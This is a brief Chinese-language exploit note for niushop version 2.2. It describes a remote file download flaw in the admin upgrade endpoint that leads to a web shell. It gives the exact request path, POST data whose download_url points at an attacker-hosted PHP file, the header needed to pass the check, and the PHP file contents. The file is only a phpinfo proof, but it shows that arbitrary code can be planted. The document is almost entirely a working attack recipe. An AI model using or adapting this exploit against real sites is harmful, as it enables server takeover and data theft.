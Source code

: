 ### niushop

```
版本信息：2.2
```

#### 远程文件下载getshell

url

```
index.php?s=/admin/Upgradeonline/downloadPatchZip
```

post data

```
download_url=http://192.168.81.116:1234/1.php&patch_release=1
```

需要在请求头增加

```
X-Requested-With: XMLHttpRequest
```

1.php文件内容：

```php
<?php

 phpinfo();

/*

abcdddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddd

abcdddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddd

abcdddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddd

abcdddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddd

abcdddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddd

*/

?>
```

![Snipaste_2022-11-01_17-36-21.jpg](images/Snipaste_2022-11-01_17-36-21.jpg)

![Snipaste_2022-11-01_17-37-56.jpg](images/Snipaste_2022-11-01_17-37-56.jpg)

